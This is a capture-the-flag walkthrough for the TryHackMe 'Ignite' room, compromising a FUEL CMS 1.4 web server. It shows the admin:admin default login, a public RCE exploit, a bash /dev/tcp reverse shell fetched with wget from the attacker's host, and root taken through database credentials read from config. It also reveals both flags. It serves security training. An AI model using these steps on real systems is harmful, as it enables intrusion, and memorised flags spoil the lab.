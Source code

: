 # Ignite

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

> 🔬🌐 [Ignite](https://tryhackme.com/room/ignite)
>
> _A new start-up has a few issues with their web server._
>
> <img src=".gitbook/assets/ignite.png" alt="" data-size="original">

🎯 Target IP: `10.10.174.21`

## Recon

```bash
mkdir ignite
cd ignite
nmap -sV -sC -oA nmap_ignite 10.10.174.21
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry
|_/fuel/
```

> 📌 Found **FUEL CMS v. 1.4** on port `80`

### Local Recon

Navigate to

* `http://10.10.174.21/`
* `http://10.10.174.21/fuel`
  * `admin`:`admin`

## Exploitation

* Search for a Fuel CMS exploit

```bash
searchsploit fuel cms
searshsploit -m 50477
less 50477.py

python 50477.py -u http://10.10.174.21
```

> 📌 [Fuel CMS 1.4.1 - Remote Code Execution (3)](https://www.exploit-db.com/exploits/50477)

```bash
whoami
```

![](.gitbook/assets/image-20230511172416842.png)

### Reverse Shell

```bash
ip -br -c a
	10.18.65.48 # my IP
	
subl shell.sh

# Insert this line for a bash reverse shell
/bin/bash -i >& /dev/tcp/10.18.65.48/3333 0>&1
```

* Setup a Python web server and a `nc` listener on 2 different tabs

```bash
python -m http.server

nc -nvlp 3333
```

* Back in the exploited Fuel CMS `Enter Command $`

```bash
wget http://10.18.65.48:8000/shell.sh -O shell.sh
bash shell.sh
```

* Reverse shell received in the `nc` terminal

```bash
/usr/bin/script -qc /bin/bash /dev/null
cd /home/www-data
ls
cat flag.txt
```

<details>

<summary>Reveal Flag - user.txt: 🚩</summary>

`6470e394cbf6dab6a91682cc8585059b`

<img src=".gitbook/assets/image-20230511171954548.png" alt="" data-size="original">

</details>

## Privilege Escalation

* Enumerate Fuel CMS application
  * `/var/www/html/fuel/application/config/`

```bash
cat /var/www/html/fuel/application/config/database.php
```

```bash
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);
```

> 📌 Found database credentials: `root`:`mememe`

* Try to use those credentials for the `root` user of the system

```bash
su root

whoami
cd
cat root.txt
```

<details>

<summary>Reveal Flag - root.txt: 🚩</summary>

`b9bbcb33e11b80be759c4e844862482`

<img src=".gitbook/assets/image-20230511175207984.png" alt="" data-size="original">

</details>

***
